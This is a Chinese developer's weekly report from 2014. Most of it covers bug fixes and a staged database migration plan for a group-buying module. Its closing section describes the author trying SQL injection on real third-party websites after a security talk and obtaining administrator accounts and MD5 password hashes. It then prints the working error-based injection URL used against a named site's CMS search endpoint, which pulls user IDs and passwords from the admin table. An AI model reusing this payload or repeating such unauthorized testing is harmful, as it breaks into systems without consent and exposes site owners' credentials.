

2014-09-13 周报
---
###本周完成的事情
1. 修复几个bug.
2. 梳理团购代码.
3. 团购部份文档化

###下周要做的
1. 团购代码的重构
2. 迁库

###团购重构发布计划
团购部份有三大块,一是面向用户的展示,其次是面向商家的报名,还有管理员的审批.

三者均涉及Tbao主表,则按业务进行分批次迁移感觉不太好操作.

目前的计划是,先在线下进行开发,然后等基本测试通过之后开始进行替换操作.

先上全部model层代码.

(之前没进行过数据库迁移工作)考虑到会对110万数据进行过滤,咨询过非鱼,店铺池子中30万数据会跑8小时,可能这一步会用java多线程或者多php crond进行加速.

除Tbao外,其他的数据库表数量不大(千级别及以下),可以在短时间内完成迁移(因为表为商家和管理员修改的表,所以频率不高,有几张表数据是不会变动的).先迁移除Tbao之外的其它表.

完成model层上线和其余表迁移之后,先上线审批模块,此时,依旧会同时写旧库和新库.当新库确认无异常之后.会上线商家报名模块,也是同时写新库和旧库.

此时,除Tbao之外,所有表完成了迁移和同步.用一种异步更新的方式,即,在Tbao原有model上,添加一个mq(redis)写操作,将用户的修改数据(即tuanitemid,和最新的修改值(key - value))加入mq,同时写
入原有表.等待Tbao数据迁移之后.于此同时写一个程序开始同步进行更新新Tbao中的数据.在php代码中加上一个判断,当数据库迁移完成(修改redis中的某一个值)且操作消息队列为空时,全部切换到新库.
自此完成全部迁移.

面临的风险,如过用户操作频率高于同步频率,则会造成队列中的消息越来越多.
解决的办法,可以增加线程活着crond任务来进行缓解.不过也有一个数据的极限.超过极限,则该方案不可行.

如过迁移Tbao时间短(2小时之内),是否可以在凌晨开始,将数据库迁掉,然后所有的操作写文件(数据量不大),然后再同步数据库.完成迁移.

此时,为了保证对上的透明,所有代码的改动在原有的model层上进行改动,此时对上的controller和view不需要进行改动.

当数据库迁移之后,上层的改动就会相对简单很多.

重构的工作重点就在于删除废弃代码,整理原有代码.之后,可以开始走正常的发布,先上新审核后台,然后再上新的报名代码.

###其它的
周三听了止介大神的web 安全分享,自己去试了下..还真的注了几个网站,拿到了管理员账号和密码(md5加密后的).最后卡在了md5的解密上.

截图如下:


利用的注入语句如下:

```
http://www.imaoshan.com/cms/plus/search.php?keyword=helloworld&typeArr[
111%3D@%60\%27%60%29+and+%28SELECT+1+FROM+%28select+count%28*%29,
concat%28floor%28rand%280%29*2%29,%28substring%28%28select+CONCAT%280x7c,
userid,0x7c,pwd%29+from+%60%23@__admin%60+limit+0,
1%29,1,62%29%29%29a+from+information_schema.tables+group+by+a%29b%29%23@%60\%27%60+]=a
```
